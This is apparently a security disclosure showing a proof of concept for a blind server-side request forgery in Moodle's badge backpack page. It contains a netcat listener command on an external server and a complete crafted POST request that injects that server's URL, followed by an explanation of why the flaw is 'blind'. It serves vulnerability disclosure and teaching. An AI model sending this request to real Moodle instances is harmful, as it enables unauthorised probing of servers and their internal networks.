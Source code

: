 ## Proof of Concept

### Step 1: Environment Setup

First, I set up a listener on my DigitalOcean server to capture incoming requests:

```bash
# DigitalOcean Instance: poseidon.secsignal.org
nc -l 9669 -vv
```

### Step 2: Exploit Request

With a valid authenticated user session, I crafted the following request injecting my external server URL:

```http
POST /badges/mybackpack.php HTTP/1.1
Host: [TARGET_MOODLE_INSTANCE]
Connection: close
Content-Length: 197
Cache-Control: max-age=0
Origin: [TARGET_MOODLE_INSTANCE]
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: [TARGET_MOODLE_INSTANCE]
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,es;q=0.8
Cookie: MoodleSession=tqb1jtemdjpj008jmedcjisbl5

userid=68243&backpackurl=http://poseidon.secsignal.org:9669/SSRF&sesskey=axCluGrlPB&qf_edit_backpack_form=1&mform_isexpanded_id_backpackheader=1&email=test&submitbutton=Connect+to+backpack
```

### Step 3: Verification

After executing the request, my DigitalOcean server received an incoming connection from the Moodle application server (AWS EC2 instance), confirming the SSRF vulnerability.

**Incoming request source**: `*.compute-1.amazonaws.com`

This confirmed that the Moodle application was making server-side requests to user-controlled URLs.

## Blind SSRF Characteristics

### Why It's "Blind"

This SSRF is classified as "blind" because:

1. **No direct response reflection** - The attacker doesn't see the response content from internal requests
2. **Limited feedback** - Only connection attempts can be detected via external listeners
3. **No data exfiltration** through response content
4. **Time-based detection** - Requires external infrastructure to confirm requests

